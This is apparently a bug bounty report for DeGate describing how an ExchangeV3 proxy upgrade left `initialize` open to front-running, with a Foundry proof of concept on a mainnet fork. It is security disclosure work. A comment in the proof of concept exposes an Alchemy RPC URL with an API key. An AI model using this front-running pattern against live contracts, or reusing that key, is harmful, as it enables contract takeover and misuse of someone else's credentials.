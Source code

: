 
# The implementation upgrade must be done by calling the upgradeToAndCall function to avoid frontrunning of the initialization.

Submitted on Nov 24th 2023 at 04:30:05 UTC by @Paludo0x for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26073

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value
- Impact caused by the unintended functionality of multisig owners

## Description
## Bug Description

The implementation upgrade in the ExchangeV3 proxy was performed by sequentially calling:
1. `upgradeTo` function of the proxy https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062?trace=0
2. `initialize` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x3c5629d35e75eb6b1e3e17e73ea16f3638c46a120a1f31bb8988f9db89bf483a?trace=0
3. `transferOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x9e6c119e7acaa30e62ef7bc12096dc6bd74ea38b1341aa2ecaeb9092c1e37a01?trace=0
4. `claimOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x238ba9b1141f396446013989c947851eba3629e81121347f6d66f167f8823469?trace=0.2.1

The issue is that `upgradeTo` and `initialize` calls have been done at different blocks (respectively 18552107 and 18552108).
That imply that **anyone** could have front run the initialize call because it is done throug fallback function of proxy contract which is permissionless.

Function initialize is the following:

```
    function initialize(
        address _loopring,
        address _owner,
        bytes32 _genesisMerkleRoot,
        bytes32 _genesisMerkleAssetRoot
        )
        external
        override
        nonReentrant
        onlyWhenUninitialized
    {
        require(address(0) != _owner, "ZERO_ADDRESS");
        owner = _owner;

        state.initializeGenesisBlock(
            _loopring,
            _genesisMerkleRoot,
            _genesisMerkleAssetRoot,
            EIP712.hash(EIP712.Domain("DeGate Protocol", version(), address(this)))
        );
    }
```

So, the initialize function initializes:
1. the owner of the implementation (not of the proxy, which is stored in a different slot)
2. the loopring address 
3. genesisMerkleRoot 
4. genesisMerkleAssetRoot

We must consider that the upgrade function is called when the implementation is initialized for the first time or when the implementation is updated to a new version.
In the last case it should be called by the multisig and the timelock after at least 45 days. 
Therefore, resolving the issue could take a long time and a revert of the transaction could be unnoticed.

## Impact
What could be the effects of initialization by any user?

If a malicious user set up a different owner, fortunately, this can be changed by the proxy owner but at later time if the proxy owner is the Timelock. 

At the moment, I canno comment the effects of initializing with counterfeit genesisMerkleRoot and genesisMerkleAssetRoot. 

Eventually, in my opinion, the biggest problem is Loopring address.
A malicious user could deploy a fake Loopring contract similar to the real one but with a backdoor usable by the malicious user himself. 
While the other initialization parameters (owner and merkle roots) would be the equivalent to the ones of the legitimate transsaction.
This situation could be unnoticed by legitimate owners.




## Proof of concept
The POC verifies that any user can call initialize the function after upgrading of implementation and if the same function is called by the owner afterwards it reverts because already initialized.
It shall be run with foundry with the following command
forge test --match-test test_initialize_frontRun --fork-url YOUR_RPC_URL --fork-block-number 18552107

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.6.2 <0.9.0;
pragma abicoder v2;

import {Test, console2} from "forge-std/Test.sol";
import {OwnedUpgradabilityProxy} from "../contracts/thirdparty/proxies/OwnedUpgradabilityProxy.sol";  
import {LoopringIOExchangeOwner} from "../contracts/aux/access/LoopringIOExchangeOwner.sol";  
import {ExchangeV3} from "../contracts/core/impl/ExchangeV3.sol";  
import {ILoopringV3} from "../contracts/core/impl/ExchangeV3.sol";  

interface IMultiSigWallet {
        function removeOwner(address owner) external;
        function addOwner(address owner) external;
}
contract TestPlaygorund is Test {

    address constant contractsDeployer = 0xacD3A62F3eED1BfE4fF0eC8240d645c1F5477F82;
    OwnedUpgradabilityProxy constant excV3ProxyInterfDeployed = OwnedUpgradabilityProxy(0x9C07A72177c5A05410cA338823e790876E79D73B);
    ExchangeV3 constant excV3ProxyImplDeployed = ExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    address constant anyUser = address(0xbee);


    //forge test --match-test test_initialize_frontRun --fork-url https://eth-mainnet.g.alchemy.com/v2/gSyV-SZAsIZGOyq7gTEOclsvkFL3dJ94 --fork-block-number 18552107
    function test_initialize_frontRun() public {
    
        //on block 18552107 deployer account (which is actual Proxy Owner) updates implementation address to 
        //https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062

        //we fork from block 18552108, i.e. when function "initialize" is triggered
        address loopring =0x9385aCd9d78dFE854c543294770d0C94c2B07EDC;
        address owner = contractsDeployer;
        bytes32 genesisMerkleRoot = 0x03e1788bf14436c39a3841ae888ffb3e6ec8405bc2773afa28b6d4dfc309cf19;
        bytes32 genesisMerkleAssetRoot = 0x071c8b14d71d432750479f5fe6e08abe1ec04712835a83cdf84d0483b9382ae8;

   
        //I would have loved to check the different loopring value but I'm getting stack too deep error
        //(,,ILoopringV3 tempLoopring,,,,,,,,,,) = excV3ProxyImplDeployed.state();
        
        //we verify that owner is unitialized
        console2.log("Owner address before initialize", excV3ProxyImplDeployed.owner() );

        //any user frontruns and call initialize, he could have changed parameters as he like
        vm.startPrank(anyUser);
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
        console2.log("Owner address after initialize", excV3ProxyImplDeployed.owner() );

        //try to call initialize function by owner
        vm.startPrank(owner);
        vm.expectRevert("INITIALIZED");
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
    }
}

```